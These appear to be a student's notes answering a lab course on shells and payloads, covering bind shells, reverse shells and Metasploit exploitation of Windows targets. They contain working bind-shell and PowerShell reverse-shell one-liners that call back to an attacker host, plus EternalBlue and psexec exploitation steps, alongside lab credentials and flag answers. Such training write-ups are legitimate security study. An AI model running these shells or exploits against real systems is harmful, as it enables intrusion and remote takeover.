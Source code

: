 # Shells & Payloads

## Anatomy of a shell

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



### Questions

1. Which two shell languages did we experiment with in this section? (Format: shellname\&shellname)

**bash\&powershell**

2. In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.

run pwnbox

`$PSVersionTable`

**Core**

## Bind Shells

### Questions

1. Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

**443**

2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

`ssh htb-student@10.129.201.134`

* PW: `HTB_@cademy_stdnt!`

**target-machine:** `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | sudo nc -l 10.129.201.134 443 > /tmp/f`

**my machine:** `sudo nc -nv 10.129.201.134 443`

`cd /customscripts`

`cat flag.txt`

**B1nD\_Shells\_r\_cool**

## Reverse Shells

We can run listener (nc) and the target will initiate the connection to us...

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Questions

1. When establishing a reverse shell session with a target, will the target act as a client or server?

**client**

2. Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

`xfreerdp /v: 10.129.247.106 /u:htb-student /p:HTB_@cademy_stdnt!`

`sudo nc -nlvp 443`

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.46',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`whoami`

**shells-win10**\htb-student

## Automating Payloads & Delivery with Metasploit

### Questions

1. What command language interpreter is used to establish a system shell session with the target?

**powershell**

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

2. Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)

`nmap -sVC -Pn 10.129.201.160`

`msfconsole -q`

msf -> `search smb`

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

lets use No. 57 (psexec)

msf -> `use 57`

msf -> `options`

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

msf -> `run`

`cd Users\htb-student\Documents`

`dir`

**staffsalaries.txt**

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



## Infiltrating Windows

Win vuln table

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Questions

1. What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something')

**.bat**

2. What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx)

**MS17-010**

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

3. Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\\

`nmap -v -A 10.129.201.97`

* host running Win Server 2016 Standard 6.3
*

    <figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

`msfconsole -q`

`use auxiliary/scanner/smb/smb_ms17_010`

`options`

`set RHOSTS 10.129.201.97`

`run`

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**OK, it is vuln to MS17-010 (ETERNAL BLUE)**

`search eternalblue`

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

`use 1` (psexec)

`set RHOSTS 10.129.201.97`

`set LHOST tun0`

`set LPORT 4444`

`run`

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

